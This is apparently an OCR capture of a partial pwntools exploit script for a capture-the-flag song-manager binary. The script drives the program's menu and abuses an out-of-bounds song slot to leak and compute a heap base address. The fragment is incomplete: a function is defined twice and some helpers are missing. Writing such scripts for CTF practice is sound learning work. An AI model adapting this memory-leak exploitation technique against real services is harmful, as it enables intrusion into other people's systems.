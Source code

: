 ```py
def show():
    p.recvuntil("Please enter your choice [7]: ")
    p.sendline("4")

def add_song(title, author, album):
    p.recvuntil("Please enter your choice [7]: ")
    p.sendline("2")
    p.recvuntil("Please enter a song title: ")
    p.sendline(title)    
    p.recvuntil("is from: ")
    p.sendline(author)
    p.recvuntil("is on: ")
    p.sendline(album)

def show(slot):
    p.recvuntil("Please enter your choice [7]: ")
    p.sendline("3")
    p.recvuntil("Enter the slot of the song to edit: ")
    p.sendline(str(slot))

def open_file(filename):
    p.recvuntil("Please enter your choice [7]: ")
    p.sendline("5")
    p.recvuntil("Please enter the file path: ")
    p.sendline(filename)

def read_file(len):
    p.recvuntil("Please enter your choice [7]: ")
    p.sendline("6")
    p.recvuntil("How many bytes to read: ")
    p.sendline(str(len))

def write_file(len, content):
    p.recvuntil("Please enter your choice [7]: ")
    p.sendline("7")
    p.recvuntil("How many bytes to read: ")
    p.sendline(str(len))
    p.recvuntil("Enter the data: ")
    p.send(content)

def edit_title(slot, title):
    p.recvuntil("Please enter your choice [7]: ")
    p.sendline("4")
    p.recvuntil("Enter the slot of the song to edit: ")
    p.sendline(str(slot))
    p.recvuntil("What do you want to change: ")
    p.sendline("0")
    p.recvuntil("Please enter the new info: ")
    p.sendline(title)

register("rosa", "123")
register("rosa1", "123")
login("rosa", "123")
show(18)
p.recvuntil("Song: ")
heap_leak = u64(p.recv(6).ljust(8, b"\x00"))
log.info("heap leak: " + hex(heap_leak))
heap_base = heap_leak - 0x720
log.info("heap base: " + hex(heap_base))

open_file("/code/rosa")
show(0x26)
p.recvuntil("Song: \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 - ")
```